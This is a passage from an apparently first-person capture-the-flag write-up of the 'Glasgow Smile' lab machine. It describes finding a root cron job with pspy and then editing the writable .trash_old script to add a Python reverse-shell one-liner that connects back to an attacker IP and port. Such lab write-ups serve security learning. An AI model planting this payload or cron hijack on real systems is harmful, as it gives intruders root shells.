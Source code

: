Upon viewing this file, it appears that it is an attempt at a script, but it has a few pieces of information missing. The initial line is missing the ! before /bin/sh and it appears that the only command that is being ran is exit 0 in this file.

![Glasgow Smile trash_old](/assets/img/Glasgow40.png)

I wasn't sure if this was another rabbit hole, so I copied over pspy with `scp pspy64 penguin@192.168.68.136:/home/penguin` to place it in penguin's home folder.

![Glasgow Smile copy pspy64](/assets/img/Glasgow41.png)

I then moved back to penguin's home directory and made pspy64 executable and launched the program.

![Glasgow Smile launch pspy64](/assets/img/Glasgow42.png)

After a few minutes, it became apparent that the .trash_old file was not a rabbit hole, as there was a cron job running it once a minute.

![Glasgow Smile pspy64 trash_old](/assets/img/Glasgow43.png)

Now that we know this runs as root, we add the ! before /bin/sh, comment out the exit 0 command, and add in this 1 liner to create a reverse shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.68.135",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![Glasgow Smile update trash_old](/assets/img/Glasgow44.png)
